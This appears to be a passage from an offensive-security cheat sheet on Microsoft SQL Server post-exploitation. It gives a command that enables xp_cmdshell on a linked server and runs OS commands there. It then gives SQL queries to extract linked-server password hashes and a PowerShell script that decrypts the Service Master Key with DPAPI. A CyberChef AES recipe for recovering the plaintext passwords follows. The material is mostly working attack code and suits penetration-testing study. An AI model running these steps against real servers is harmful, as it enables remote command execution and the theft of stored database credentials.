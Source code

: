 ```sql
EXECUTE ('EXEC sp_configure "show advanced options", 1; RECONFIGURE; EXEC sp_configure "xp_cmdshell", 1; RECONFIGURE; EXEC xp_cmdshell "whoami";') AT SQL02;
```

### <mark style="color:yellow;">Decrypting Linked Server Passwords (Post-Exploitation)</mark>

With a user with sysadmin role we can extract credentials to linked servers.

```sql
SELECT sysservers.srvname, syslnklgns.name, syslnklgns.pwdhash
FROM master.sys.syslnklgns
INNER JOIN master.sys.sysservers
ON syslnklgns.srvid = sysservers.srvid WHERE LEN(pwdhash) > 0;

# Get hash
SELECT * FROM sys.key_encryptions;
```

Decrypt Service Master Key, first get entropy bytes

```sh
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Microsoft SQL Server\MSSQL16.MSSQLSERVER\Security" -Name "Entropy"
```

Then use script

```powershell
$encryptedData = "0xFFFFFFFF500100<SNIP>";
$encryptedData = $encryptedData.Substring(18); # Remove 0x and padding
$encryptedData = [byte[]] -split ($encryptedData -replace '..', '0x$& ');

$entropy = (Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Microsoft SQL Server\MSSQL16.MSSQLSERVER\Security" -Name "Entropy").Entropy;

Add-Type -AssemblyName System.Security;
$SMK = [System.Security.Cryptography.ProtectedData]::Unprotect($encryptedData, $entropy, 'LocalMachine');
Write-Host (($SMK|ForEach-Object ToString X2) -join '');
```

Split pwdhash into IV and Ciphertext

```sql
SELECT
	name,
	SUBSTRING(pwdhash, 5, 16) AS 'IV',
	SUBSTRING(pwdhash, 21, LEN(pwdhash) - 20) AS 'Ciphertext'
FROM sys.syslnklgns
WHERE LEN(pwdhash) > 0;
```

Decrypt password [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=AES_Decrypt\(%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D,'CBC','Hex','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D\)Decode_text\('UTF-16LE%20\(1200\)'\)).
